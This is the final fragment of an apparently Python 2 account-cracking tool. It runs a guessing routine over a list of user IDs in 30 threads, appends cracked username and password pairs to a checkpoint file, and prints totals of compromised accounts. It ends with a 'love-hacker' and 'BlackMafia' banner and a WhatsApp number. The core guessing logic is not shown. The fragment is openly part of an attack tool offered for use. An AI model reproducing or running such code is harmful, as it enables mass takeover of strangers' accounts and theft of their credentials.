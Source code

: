 																	cek = open("out/checkpoint.txt", "a")
																	cek.write(user+"|"+pass7+"\n")
																	cek.close()
																	cekpoint.append(user+pass7)
																	
															
		except:
			pass
		
	p = ThreadPool(30)
	p.map(main, id)
	print "\033[1;95m▒▒▒▒▒▒▒▒▒▒▒▒•◈•▒▒▒▒▒▒▒▒▒▒▒▒\033[1;96mAsadMalik\033[1;95m▒▒▒▒▒▒▒▒▒▒▒▒•◈•▒▒▒▒▒▒▒▒▒▒▒▒"
	print "  \033[1;91m«---•◈•---Developed By love-hacker--•◈•---»" #Dev:love_hacker
	print '\033[1;91mProcess Has Been Completed\033[1;92m....'
	print"\033[1;91mTotal OK/\x1b[1;93mCP \033[1;91m: \033[1;91m"+str(len(oks))+"\033[1;97m/\033[1;94m"+str(len(cekpoint))
	print """
             ▒▒▒███▒███▒███▒███▒▒
             ▒▒▒▒▒█▒█▒█▒▒▒█▒█▒█▒▒
             ▒▒▒███▒█▒█▒███▒█▒█▒▒
             ▒▒▒█▒▒▒█▒█▒█▒▒▒█▒█▒▒
             ▒▒▒███▒███▒███▒███▒▒
▒▒▒▒▒▒▒▒▒▒▒▒•◈•▒▒▒▒▒▒▒▒▒▒▒▒.
: \033[1;93m.lovehacker  BlackMafia.... \033[1;93m :
▒▒▒▒▒▒▒▒▒▒▒▒•◈•▒▒▒▒▒▒▒▒▒▒▒▒.' 
                whatsapp Num
               +923094161457"""
	
	raw_input("\n\033[1;93m[\033[1;91mBack\033[1;93m]")
	menu()

if __name__ == '__main__':
	login()

